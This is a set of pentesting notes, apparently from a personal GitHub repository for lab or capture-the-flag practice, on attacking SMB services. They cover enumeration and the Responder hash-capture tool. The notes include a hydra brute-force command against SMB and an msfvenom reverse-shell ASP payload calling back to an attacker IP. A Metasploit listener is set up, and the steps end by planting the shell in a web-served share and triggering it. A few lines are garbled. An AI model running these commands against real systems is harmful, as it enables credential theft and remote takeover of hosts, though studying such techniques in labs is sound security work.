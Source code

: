 ## SMB
Server Message Block

### Info
- can be enumerated with nmap scripts

### Versions
- **SMB1**: Very old, not secure and should be disabled. 
  - Attacks: (EternalBlue, EternalRomance, EternalSynergy, EternalChampion, EternalRock, SambaCry, WannaCry, Petya, NotPetya, etc.)

- **SMB2**: Introduced in Windows Vista and Windows Server 2008. Less chatty. Guest access is disabled by default.
- **SMB3**: Introduced in Windows 8 and Windows Server 2012. Most secure. Uses AES encryption. Need User authentication.

### Ports And Infos:
- **Port 139**: SMB1, NetBIOS Session Service
  - SMB1 Hostname must be provided \\host1\files
- **Port 445**: SMB1 and SMB2 Microsoft-DS \\ Active Directory, Windows shares, etc.
  - can use IP address \\192.193.1.231\files

### Enumerated by tools:
- **enum4linux**: Enumerates SMB shares on Windows and Linux systems.
- Nmap scripts: smb-enum-shares, smb-enum-users, smb-os-discovery, smb-security-mode, smb-vuln-*, etc.
- smbclient: Command-line tool to access SMB shares.
- rpcclient: Command-line tool to access Windows RPC services.

### Common Shares:
- **IPC$**: Inter-Process Communication share.
- **C$**: Drive C. of the remote host
- **Admin$**: Access to the Windows folder.

if ipc is available you can do for example: eternalblue

### To Try in Pentesting:
- Can i acces SMB as guest?
- Can I bruteforce usernames/ passwords
- Can I read/write to shares?
- Can I access my written file to execute shells?

### SMB Responder: 

-I choose network interface (In the context of Responder, 

```sh
git clone https://github.com/lgandx/Responder
```
Verify that the Responder.conf is set to listen for SMB requests.

edit resolver conf if necessary

```sh
cat Responder.conf
```
```
sudo python3 Responder.py -I tun0

Specifying -I tun0 means that Responder will listen for network requests coming through the tun0 interface. 
This could be useful if you're running Responder on a system that's connected to a VPN, 
and you want Responder to only interact with network traffic that's coming over the VPN connection.)

```
server is now listening


### SMBClient

#### Options
-L : List available shares on the target.

-U : Login identity to use.

Onfound username:
$ = Signalised t

#### Installation
```sh
sudo apt install smbclient
```


#### Commands
```sh 
get "flag.txt" #to get the flag
```

#### Examples
```sh
smbclient -L 10.129.206.31 -U Administrator

smbclient \\\\10.129.206.31\\ADMIN$ -U Administrator #with folder ADMIN$
smbclient \\\\10.129.206.31\\AC$ -U Administrator #with folder C
```

### RPC Client
Can also use as cli for smb

opens a shell
```shell
queryuser 500 #administrator infos
queryuser 1000 #first User on machine
```

### Bruteforce access

```shell
#this can take long
hydra -l IEUSER -P /usr/share/wordlists/rockyou.txt smb #bruteforce smb
```

### Nmap with SMB Username and password
This delivers more details in enumeration
```shell
nmap -script smb-enum* --script-args smbusername=IEUSER,smbpass=Password$ -p445 192.254.1.102
```

### Tipps in pentesting
- If folder is webfolder maybe possible to put files there via some smb user
- typically somethink like **wwwroot**

## Reverse Shell over SMB:
1. Create reverse shell with msfvenom
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.254.1.229 LPORT=4444 -f asp > shell.asp
```
2. That creates an asp shell script which can be
3. Accepting the shell with metasploit:
```shell
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.254.1.228; set lport 4444; run -j"
```
4. Put  the shell.asp in webfolder of the smb share.
5. Than open it in browser to execute the shell.
